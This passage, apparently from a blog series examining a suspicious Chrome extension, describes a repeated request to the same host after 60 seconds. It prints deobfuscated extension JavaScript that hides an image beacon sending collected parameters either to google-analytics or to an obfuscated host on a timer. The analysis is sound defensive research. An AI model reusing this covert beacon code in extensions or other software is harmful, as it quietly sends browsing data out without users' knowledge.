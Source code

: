 ![](https://github.com/Spiderpig86/blog/raw/master/images/Extensions%20Google%20Chromes%20Soft%20Underbelly%20Part%202/ext2-pt2.PNG)

After about 60 seconds, another request is made to the same host. The same response headers are updated in local storage. A possible explanation for this is have a backup in case the first request failed.

```js
function t(a) {
    var b = new Image,
        c = Math.random();
    c += 1, c > 2 ? b.src = ["https://www.google-analytics.com/_utm.gif?", m(), k(), l(), i(), n(), j(a), p()].join("").replace(/&$/, "") : b.src = ["https://", x[2], g(), q(), m()].concat(s([k(), l(), i(), n(), o(), j(a), p()])).join("").replace(/&$/, "")
}

/* ------------------------------------------------- */

// Separate IIFE
setTimeout(function() {
    t(b) // b the random id
}, 6e4)
```
